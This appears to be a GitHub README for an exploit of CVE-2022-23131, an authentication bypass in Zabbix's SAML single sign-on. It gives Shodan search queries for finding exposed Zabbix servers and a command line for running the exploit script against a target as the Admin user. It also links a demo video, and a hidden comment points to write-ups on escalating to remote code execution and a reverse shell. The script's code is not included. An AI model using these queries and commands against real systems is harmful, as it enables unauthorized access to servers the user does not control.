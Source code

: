 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dorks:
```
title:Zabbix html:(SAML)
```
```
http.favicon.hash:892542951
```
```
"html: Zabbix" "html:(SAML)"
```
<!--
```
"html: Zabbix" "html:guest"
```
-->
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```
### Demonstration Video (0:33)
[Zabbix - SAML SSO Authentication Bypass](https://youtu.be/xVY98l0QU-M)
<!-- Here is an egg hunt for inquiring minds ;-)
RCE - https://habr.com/ru/companies/deiteriylab/articles/656829/
https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/
 -->
